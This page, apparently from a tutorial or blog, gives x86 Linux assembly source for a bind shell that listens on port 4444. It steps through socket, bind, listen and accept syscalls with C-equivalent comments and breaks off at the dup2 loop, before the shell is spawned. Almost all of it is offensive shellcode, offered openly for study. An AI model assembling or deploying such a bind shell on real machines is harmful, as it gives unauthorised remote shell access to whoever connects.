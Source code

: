 You can find the whole code below:
```nasm
;Simple ASM (x86) bind shell on port 4444

global _start
_start:
    ;set the stack pointer
    mov ebp, esp

    ;initialize registers
    xor eax, eax
    xor ebx, ebx
    xor ecx, ecx
    xor edx, edx

    ;Push struct sockaddr_in on the stack
    ;struct sockaddr_in addr;
    ;addr.sin_family = AF_INET;
    ;addr.sin_port = htons(4444);
    ;addr.sin_addr.s_addr = INADDR_ANY;
    push eax
    push eax            ;fill the end of the structure with 8 zeros
    push eax            ;addr.sin_addr.s_addr = INADDR_ANY 
    push word 0x5c11    ;addr.sin_port = htons(4444)
    push word 0x02      ;addr.sin_family = AF_INET

    ;int sockfd = socket(AF_INET, SOCK_STREAM, 0);
    mov ax, 0x167       ;socket syscall number
    mov bl, 0x02        ;AF_INET value
    mov cl, 0x01        ;SOCK_STREAM value
    int 0x80            ;Go for it
    mov edi, eax        ;return value from the socket syscall

    ;bind(sockfd, (struct sockaddr *)&addr, sizeof(addr));
    xor eax, eax
    mov ax, 0x169       ;bind system call number
    mov ebx, edi        ;sockfd 
    mov ecx, esp        ;point to the start of the stack
    mov edx, ebp
    sub edx, esp        ;use the stack pointers (esp and ebp to calculate the sizeof the structure)
    int 0x80            ;Go for it

    ;listen(sockfd, 0);
    xor eax, eax
    mov ax, 0x16b       ;listen system call number
    mov ebx, edi        ;sockfd value
    xor ecx, ecx        ;NULL value
    int 0x80            ;Go for it

    ;int connfd = accept(sockfd, NULL, NULL);
    xor eax, eax
    mov ax, 0x16c       ;accept system call number
    mov ebx, edi        ;sockfd
    xor ecx, ecx        ;NULL
    xor edx, edx        ;NULL
    xor esi, esi        ;xor esi register
    int 0x80            ;Go for it
    mov esi, eax        ;move the return variable into esi

    ;for (int i = 0; i < 3; i++)
    ;{
    ;    dup2(connfd, i);
    ;}
    mov cl, 3
```